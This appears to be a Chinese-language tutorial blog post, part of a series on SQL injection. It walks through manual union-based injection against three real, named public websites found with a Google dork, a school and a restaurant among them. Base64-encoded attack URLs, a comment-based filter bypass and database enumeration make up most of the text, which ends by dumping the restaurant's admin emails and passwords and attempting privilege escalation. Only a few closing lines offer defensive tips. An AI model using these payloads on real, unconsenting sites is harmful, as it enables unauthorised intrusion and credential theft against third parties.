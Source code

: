 ## 计算机病毒与入侵关于SQL注入的研究（三）
### 写在前面
上次我们研究了怎样通过union进行托库，本次我们玩点真的：***利用google搜索引擎进行手动注入***

### 搜索引擎的使用
使用google搜索```inurl:.php?id=MTM=```，这里inurl指的是在url内有后面字符串的网站，后面的id=MTM=是指base64加密后的id=13。查询出来结果如下：
![third1.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third1.png)

我自己经过删选测试，选取了三个网站：
- http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSx2ZXJzaW9uKCksZGF0YWJhc2UoKSw0LDUsNiw3LDgsOSwxMCwxMSwxMiwxMywxNCwxNQ==
- http://www.thzx.net/e/pl/?classid=34&id=1373(一所高中)
- http://www.zaaffran.com/testimonials.php?id=MTM=(一家印度餐厅)

本次就对这三个网站进行破解。
先回顾一下我们上次自己研究的几个破解步骤：
- 测试能否被注入
- 通过union测表段数目
- 通过mysql函数得到数据库的名称
- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称
- 获取想要的数据

***我们借助http://www1.tc711.com/tool/BASE64.htm这个base64工具进行base64加解密***

### 第一个网站的SQL注入
- 测试是否能被注入，访问http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9Mg==，含义是```id=13 and 1=2```，返回的结果如下图，表明是可以注入的
![third2.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third2.png)

- 通过union测表段数目，这一个就比较无聊了，我们从1到30挨个测（30以上直接放弃，要累死= - =），最后测试出来表段数目是15，访问http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTU=，含义是```id=13 and 1=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15```，可以看到有九个显示位，显示位很多，就用不到concat()函数了，结果如下图：
![third3.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third3.png)

- 通过mysql函数得到数据库的名称，访问http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsdmVyc2lvbigpLDEyLDEzLDE0LDE1,含义是```id=13 and 1=1 union select 1,database(),3,4,5,6,7,8,9,10,version(),12,13,14,15```，我们可以看到如下图的结果，表明数据库的名称是csearch，版本是4.0.25
![third4.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third4.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称，访问http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsdGFibGVfbmFtZSw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUgZnJvbSBpbmZvcm1hdGlvbl9zaGNlbWEg，含义是```id=13 and 1=1 union select 1,2,3,table_name,5,6,7,8,9,10,11,12,13,14,15 from information_shcema```，结果竟然是没有权限！！！
![third5.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third5.png)

由于第四步发现这个用户没有权限，我决定放弃，盲注猜表名和错误回显法的耗时较长，同时这个网站应该主要是用来搜索，我尝试了没有users表和admins表就放弃了= - =。

### 第二个网站的SQL注入
- 测试能否被注入，访问http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/发现没有问题，继续
![third6.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third6.png)

- 通过union测表段数目，访问http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/select/*ABC*/1,2,3,4,5，惊喜地看到了360= - =，网站过滤了select
![third7.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third7.png)
我又查了几下，看到可以这样访问http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/s/*ABC*/e/*ABC*/l/*ABC*/e/*ABC*/c/*ABC*/t/*ABC*/1,2,3,4,5，这样绕过了select封锁，然而程序一点错误回显也没有
![third8.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third8.png)
好吧，看起来没有漏洞的样子，放弃

### 第三个网站的SQL注入
- 测试能否被注入，访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9Mg==```，含义是```id=13 and 1=2```，结果如下，可以发现页面没有显示，证明是可以注入的
![third9.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third9.png)

- 通过union测表段数目，从1到30挨个测试，运气不错，上来直接猜到了是7,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==````，结果如下图所示，可以看到有三个显示位
![third10.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third10.png)

- 通过mysql函数得到数据库的名称，访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHZlcnNpb24oKSw0LDUsNiw3```,含义是```id=14 and 1=2 union select 1,database(),version(),4,5,6,7```，结果如下图，得到数据库的名称是zaaffran_zaaffran，数据库版本是5.5.2
![third11.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third11.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXM=```,含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables```，可以看到五个数据表：
![third12.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third12.png)
这里只有五张表，而且都是系统表，所以我尝试了一下使用order by table_type,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgdGFibGVfdHlwZQ==```，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by table_type```
![third13.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third13.png)
可以发现报错了，我结合只有五条数据显示判断系统后面加入了limit 5这个子句，所以导致返回错误，因此访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgMSM=```，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by 1#```，这次显示结果如下，成功了！
![third14.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third14.png)
同时我们搜索到了adminusers表这个敏感的表，我决定对这个表进行查询，访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLGNvbHVtbl9uYW1lLDQsNSw2LDcgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSdhZG1pbnVzZXJzJyBvcmRlciBieSAxIw==```，含义是```14 and 1=2 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_name='adminusers' order by 1#```，可以看到如下图所有的表段
![third15.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third15.png)

- 获取想要的数据,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLFVzZXJFbWFpbCxVc2VyUGFzc3dvcmQsNSw2LDcgZnJvbSBhZG1pbnVzZXJzIw==```,含义是```14 and 1=2 union select 1,2,UserEmail,UserPassword,5,6,7 from adminusers#```,可以看到adminusers表里面的所有数据
![third16.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third16.png)

## 总结
本次我们进行了三次对公共网站的SQL注入，第一次和第二次不是很成功，第三次好歹是拿到数据了，尝试了一下扩大战果：
```select user,password from mysql.user```，失败= - =，估计是没有权限。
select hex(load_file())的方法也是失败，毕竟mysql版本是5.5，安全级别较高，想要load_file()还是很难的。

碰上的坑：注释使用--的时候，后面要带有一个空格

关于怎样规避SQL的一些经验：可以看到第一二次注入失败，一个是因为权限问题，一个是因为Select过滤的问题，这可以给我们一些防范SQL注入的启示：
- 限制死权限，单独搞一个数据库和用户暴露给外界，把查询的范围和权限限制死，你就算可以注入也然并卵，数据没有用啊！
- 直接过滤掉union或者select，不允许传的参数里面带有这个（360的做法）